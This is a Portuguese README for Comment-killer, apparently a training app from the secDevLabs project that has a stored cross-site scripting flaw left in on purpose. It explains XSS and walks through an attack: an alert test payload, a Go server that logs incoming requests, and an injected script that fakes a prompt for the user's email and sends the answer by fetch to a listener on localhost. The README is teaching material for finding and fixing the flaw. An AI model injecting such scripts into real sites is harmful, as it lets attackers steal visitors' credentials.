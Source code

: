 # Comment-killer

[Access content in English](README.md)

<p align="center">
    <img src="images/img1.png"/>
</p>

O Comment-killer é um aplicativo ReactJS simples, que possui uma vulnerabilidade de injeção (XSS) e seu principal objetivo é descrever como um usuário mal-intencionado poderia explorá-lo.

## Index

- [Definição](#O-que-é-Cross-Site-Scripting?)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)


## O que é Cross Site Scripting??

As falhas de XSS ocorrem sempre que um aplicativo inclui dados não confiáveis em uma nova página da Web sem validação, escape adequados, ou atualiza uma página da Web existente com dados fornecidos pelo usuário usando uma API do navegador que pode criar HTML ou JavaScript. 

O XSS permite que os invasores executem scripts no navegador da vítima que podem sequestrar sessões do usuário, desfigurar sites ou redirecionar o usuário para sites maliciosos.

O objetivo principal deste aplicativo é discutir como as vulnerabilidades de **Cross-Site Scripting** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas. Saiba mais <a href="https://owasp.org/www-community/attacks/xss/">aqui</a>.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```bash
cd secDevLabs/owasp-top10-2021-apps/a3/comment-killer
```

```bash
make install
```

Depois é só visitar [http://localhost:10007][app] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Leia a história legal por trás dos Memes.
- Adicione um novo comentário.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.

### 👀

### Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.

Após inspecionar a aplicação, é possível identificar que a entrada de comentário está permitindo scripts e pode ser executada em um navegador web. As imagens a seguir mostram esse comportamento quando o texto a seguir é usado como entrada nesses campos: 

```
<script>alert(1)</script>
```

Adicionando um novo comentário a uma postagem:

<p align="center">
    <img src="images/img2.png"/>
</p>

A validação de entrada ausente permite que um usuário mal-intencionado insira alguns scripts que persistirão no servidor e serão executados no navegador das vítimas toda vez que acessarem as rotas que contêm esses scripts. 

#### 🔥

Um invasor pode abusar dessa falha gerando um código JS malicioso e enviando-o para outros usuários. Para demonstrar isso, o exemplo a seguir criará um formulário de email para tentar roubar as credenciais do usuário.

Inicialmente, uma API é necessária para registrar todas as solicitações recebidas e pode ser construída em Golang da seguinte forma:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:email", handler)
   e.Logger.Fatal(e.Start(":9051"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("email"))
   return nil
}
```

Para iniciar a API, o seguinte comando pode ser usado (você deve verificar este [guia](https://golang.org/doc/install) se precisar de ajuda com o Golang):

```sh
go run main.go
```

Com a API em funcionamento, basta o seguinte código para mostrar uma mensagem pop-up solicitando o e-mail do usuário para continuar lendo o blog:

```js
<script>
    var email = prompt("Please input your email again to continue:", "email@example.com");

    if (email == null || email == "") {
        alert("Ooops, please refresh the page!");
    } else {
        fetch('http://localhost:9051/'+email);
    }
</script>
```

O código JavaScript acima é responsável por enviar uma solicitação `GET` para a API do invasor para que ela possa ser registrada. Neste cenário, enviaremos solicitações para `localhost`.

Tudo o que precisamos agora é colar o código JavaScript no campo de comentários, conforme mostra a imagem a seguir:

<p align="center">
    <img src="images/img3.png"/>
</p>

Quando outro usuário acessar o aplicativo, o seguinte pop-up será mostrado, como podemos ver na imagem abaixo:

<p align="center">
    <img src="images/img4.png"/>
</p>

Enquanto isso, com a API em funcionamento, podemos receber o e-mail do usuário, conforme mostra a imagem a seguir:

<p align="center">
    <img src="images/img5.png"/>
</p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Executar scripts por meio de campos de entrada

<a name="Sol"></a>

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3AComment-Killer)!

<a name="Cont"></a>

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) para orientações sobre como proceder !🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
[secdevlabs]: https://github.com/globocom/secDevLabs
